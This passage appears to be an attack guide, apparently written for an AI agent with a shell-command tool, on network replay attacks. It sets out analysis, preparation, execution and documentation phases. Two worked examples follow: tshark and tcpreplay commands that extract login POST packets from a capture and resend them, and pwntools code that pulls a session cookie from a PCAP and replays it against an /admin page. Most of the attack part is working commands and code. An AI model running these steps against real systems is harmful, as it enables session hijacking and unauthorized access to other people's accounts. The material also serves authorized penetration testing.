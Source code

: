 1. **Analysis Phase**:
   - Examine captured traffic (PCAP files)
   - Identify protocols and authentication mechanisms
   - Locate sequence numbers, tokens, and session data
   - Map the attack surface

2. **Preparation Phase**:
   - Extract relevant packets
   - Modify packets as needed (headers, payloads)
   - Prepare replay sequences
   - Develop custom scripts if necessary

3. **Execution Phase**:
   - Perform the replay attack
   - Monitor and analyze results
   - Adjust approach based on feedback
   - Document findings

4. **Documentation Phase**:
   - Record attack methodology
   - Document vulnerabilities identified
   - Recommend remediation steps

## Example Workflows

### 1. Basic Packet Analysis and Replay

```python
# Analyze a PCAP file to identify authentication packets
generic_linux_command("tshark", "-r capture.pcap -Y 'http.request.method==POST && http.host contains \"login\"' -T fields -e frame.number -e ip.src -e tcp.srcport -e ip.dst -e tcp.dstport -e http.request.uri -e http.file_data")

# Extract specific packets for replay
generic_linux_command("tshark", "-r capture.pcap -w auth_packets.pcap -Y 'frame.number==1234'")

# Replay extracted packets
generic_linux_command("tcpreplay", "-i eth0 -t -K auth_packets.pcap")
```

### 2. Session Token Extraction and Replay with pwntools

```python
from pwn import *
import re

# Example Python code for extracting and reusing a session token
def extract_and_replay_token():
    # Read a PCAP file
    with open('capture.pcap', 'rb') as f:
        pcap_data = f.read()
    
    # Extract session token using regex
    token_match = re.search(b'session=([a-zA-Z0-9]+)', pcap_data)
    if token_match:
        session_token = token_match.group(1)
        log.success(f"Found session token: {session_token}")
        
        # Create a new request with the extracted token
        r = remote('target.example.com', 80)
        r.send(b'GET /admin HTTP/1.1\r\n')
        r.send(b'Host: target.example.com\r\n')
        r.send(b'Cookie: session=' + session_token + b'\r\n\r\n')
        response = r.recvall()
        log.info(f"Response: {response}")
```